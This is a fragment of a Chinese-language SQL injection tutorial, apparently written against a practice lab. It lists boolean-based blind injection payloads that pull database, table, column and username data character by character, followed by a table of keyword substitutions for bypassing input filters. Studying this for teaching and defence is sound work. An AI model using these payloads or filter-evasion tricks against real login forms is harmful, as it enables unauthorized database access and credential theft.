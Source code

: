 > uname=ain' or left((select schema_name from information_schema.schemata limit 4,1),1)='s'#&passwd=admin&submit=Submit

> uname=ain' or ascii(substr((database()),1,1))='115'#&passwd=admin&submit=Submit

判断表名

> uname=ain' or left((select table_name from information_schema.tables where schema_name="security"  limit 0,1),1)='u'#&passwd=admin&submit=Submit

> uname=ain' or ascii(substr((select table_name from information_schema.tables where table_schema="security" limit 0,1),1,1))= '101'#&passwd=admin&submit=Submit

判断列名

> uname=ain' or left((select column_name from information_schema.columns where table_name="users"  limit 0,1),1)='a'#&passwd=admin&submit=Submit

判断字段内容：

> uname=ain' or ascii(substr((select username from users limit 0,1),1,1))= '68'#&passwd=admin&submit=Submit

> uname=ain' or left((select username from security.users limit 0,1),1)= 'a'#&passwd=admin&submit=Submit



---

# 常见的过滤替代函数

|         关键字         |                      可用来代替的关键字                      |
| :--------------------: | :----------------------------------------------------------: |
|          空格          |                     （）, + ,科学计数法                      |
|       '  单引号        |                     16进制,char(),%2527                      |
|        =和like         |                            regexp                            |
| substr(database(),1,1) |               substr(database() from 1 for 1 )               |
|           if           |                          case when                           |
|         ascii          |                             ord                              |
|   information_schema   | schema_auto_increment_columns，该视图的作   用简单来说就是用来对表自增ID的监控。 |
|        order by        |                           group by                           |
|          逗号          |                             join                             |



# 举一个例子


